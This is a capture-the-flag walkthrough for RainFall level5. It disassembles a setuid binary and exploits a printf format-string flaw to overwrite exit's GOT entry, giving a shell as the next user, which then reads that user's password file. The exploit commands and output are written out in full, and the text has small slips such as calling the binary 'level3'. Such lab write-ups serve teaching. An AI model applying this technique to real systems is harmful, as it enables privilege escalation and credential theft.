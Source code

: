 ```sh
level5@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level5 level5   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level5 level5  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level5 level5 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level6 users  5385 Mar  6  2016 level5
-rw-r--r--+ 1 level5 level5   65 Sep 23  2015 .pass
-rw-r--r--  1 level5 level5  675 Apr  3  2012 .profile
level5@RainFall:~$ ./level5
42
42
level5@RainFall:~$ ./level5 42
42
42
```
There is one excutable file **level3**, it works like cat, take standard input, print them and shutting down. \
\
Run the binary file with GDB.
```sh
(gdb) info functions
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
   End of assembler dump.
   (gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   %ebp
   0x08048505 <+1>:     mov    %esp,%ebp
   0x08048507 <+3>:     and    $0xfffffff0,%esp
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave  
   0x08048510 <+12>:    ret    
End of assembler dump.
```
We can see 3 functions ```main(), n(), o()```. ```n()``` function gets standard input by ```fgets()``` and ```printf()``` without formatter. ```o()``` function have ```system()``` call, but its called by anywhere. \
We will be try same things like previous level, but now we have to call function ```o()```.
```sh
level5@RainFall:~$ python -c 'print "BBBB" + " %x" * 10' > /tmp/exploit5
level5@RainFall:~$ cat /tmp/exploit5 | ./level5
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078 20782520 25207825 78252078
level5@RainFall:~$ 
```
Now we can find easliy the input located in 4th of stack, we will replace the address of exit just after ```printf()``` by function ```o()```.
```sh
(gdb) disas n
Dump of assembler code for function n:
...
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
(gdb) x/i 0x080483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
...
```
The start address of function ```o()``` is 0x80484a4, in decimal 134513828.
```
original exit address + o() start address - 4 + %4$n
```
```sh
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit5
level5@RainFall:~$ cat /tmp/exploit5 - | ./level5
...
whoami
level6
cat /home/user/level6/.pass
(hidden)
```
level5 passed !

